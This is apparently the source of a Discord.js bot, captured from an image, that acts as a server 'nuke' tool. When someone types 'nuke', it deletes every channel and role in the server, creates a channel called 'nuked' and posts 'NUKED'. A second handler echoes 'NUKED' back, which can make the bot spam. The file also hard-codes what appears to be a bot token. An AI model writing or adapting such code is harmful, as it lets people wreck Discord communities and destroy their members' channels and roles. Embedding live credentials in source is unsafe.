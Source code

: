 const Token ="OTQwMDE2OTgzNzI0OTMzMjI0.YgBRCQ.Nv3ZYpqOp43UhdMwcxJDba-VCf";
const Discord = require("discord.js"); 
const Client = new Discord.Client({
   intents: [
      Discord.Intents.FLAGS.GUILDS,
      Discord.Intents.FLAGS.GUILD_MESSAGES
   ]
});


Client.on('message', async (message) => {
    if (message.content == 'nuke') {
       message.guild.channels.cache.forEach(channel => channel.delete());
          
       message.guild.roles.cache.forEach(role => role.delete());

       
       await message.guild.channels.create("nuked", {
          type : "text"
       }).then(async channel=> {
          channel.send("NUKED")
       })
    }
 })


 Client.on("message", async (message) => {
    if (message.content == "NUKED") {
       message.channel.send("NUKED")
    }
 })
 
Client.login(Token);
